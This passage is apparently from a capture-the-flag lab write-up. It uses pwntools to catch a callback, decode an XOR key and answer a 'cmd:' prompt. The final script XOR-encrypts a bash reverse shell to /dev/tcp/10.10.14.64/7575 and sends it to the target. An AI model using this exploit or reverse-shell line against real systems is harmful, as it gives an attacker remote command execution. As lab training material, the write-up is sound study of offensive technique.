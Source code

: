 Since the connection stays open we use pwntools to send some data back on a connection and listen for the response. We also capture the initial xor key and decode it.

`sendstuff.py`
```py
from pwn import *

io = listen(20053)
io.wait_for_connection()

data = io.recvline().decode()

key = unhex(unhex(data.split('|')[1]).decode().split(':')[1])[11]
print(f'Key is: {key}')

io.sendline(b'a')
print(io.recvline())
```

We run the script and send the previous request in burp again. After sending random data on a connection we get a response back in the same format as previously.

```
$ python sendstuff.py
[+] Trying to bind to :: on port 20053: Done
[+] Waiting for connections on :::20053: Got connection from ::ffff:10.129.228.82 on port 46828
Key is: 69
b'cecd0898-aaac-4d85-b1d0-97b515ff0afe|2628217f\n'
[*] Closed connection to ::ffff:10.129.228.82 port 46828
```

 The second part of it is some hex data which decrypts with the xor key we decoded to `cmd:`.

```
$ python
Python 3.9.2 (default, Feb 28 2021, 17:03:44)
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> xor(unhex('2628217f'), 69)
b'cmd:'
```

It seems like it expects a command sent to it. To test it we modify our `sendstuff.py` to encrypt a reverse shell with the decoded xor_key and send it back to the target on connection.

`sendstuff.py`
```py
from pwn import *

io = listen(20053)
io.wait_for_connection()

data = io.recvline().decode()

key = unhex(unhex(data.split('|')[1]).decode().split(':')[1])[11]
print(f'Key is: {key}')

command = b"bash -c 'bash -i >& /dev/tcp/10.10.14.64/7575 0>&1'"

io.sendline(xor(command, key))
print(io.recvline())
```
